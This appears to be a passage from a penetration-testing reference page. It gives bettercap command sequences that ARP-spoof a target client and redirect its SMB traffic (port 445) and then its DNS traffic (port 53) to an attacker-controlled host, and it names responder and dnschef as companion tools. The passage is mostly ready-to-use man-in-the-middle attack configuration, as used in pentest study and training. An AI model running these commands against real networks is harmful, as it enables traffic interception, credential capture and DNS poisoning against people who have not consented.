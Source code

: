 
```bash
# quick recon of the network
net.probe on

# set the ARP spoofing
set arp.spoof.targets $client_ip
set arp.spoof.internal false
set arp.spoof.fullduplex false

# reroute traffic aimed at the original SMB server
set any.proxy.iface $interface
set any.proxy.protocol TCP
set any.proxy.src_address $SMB_server_ip
set any.proxy.src_port 445
set any.proxy.dst_address $attacker_ip
set any.proxy.dst_port 445

# control logging and verbosity
events.ignore endpoint
events.ignore net.sniff.mdns

# start the modules
any.proxy on
arp.spoof on
net.sniff on
```



=== DNS spoofing

Start the DNS server ([responder](https://github.com/lgandx/Responder), [dnschef](https://github.com/iphelix/dnschef), or [bettercap](https://github.com/bettercap/bettercap)) for [DNS poisoning](dns-spoofing.md) then start the ARP poisoning attack.


```bash
# quick recon of the network
net.probe on

# set the ARP spoofing
set arp.spoof.targets $client_ip
set arp.spoof.internal false
set arp.spoof.fullduplex false

# reroute traffic aimed at the original DNS server
set any.proxy.iface $interface
set any.proxy.protocol UDP
set any.proxy.src_address $DNS_server_ip
set any.proxy.src_port 53
set any.proxy.dst_address $attacker_ip
set any.proxy.dst_port 53

# control logging and verbosity
events.ignore endpoint
events.ignore net.sniff.mdns

# start the modules
any.proxy on
arp.spoof on
net.sniff on
```
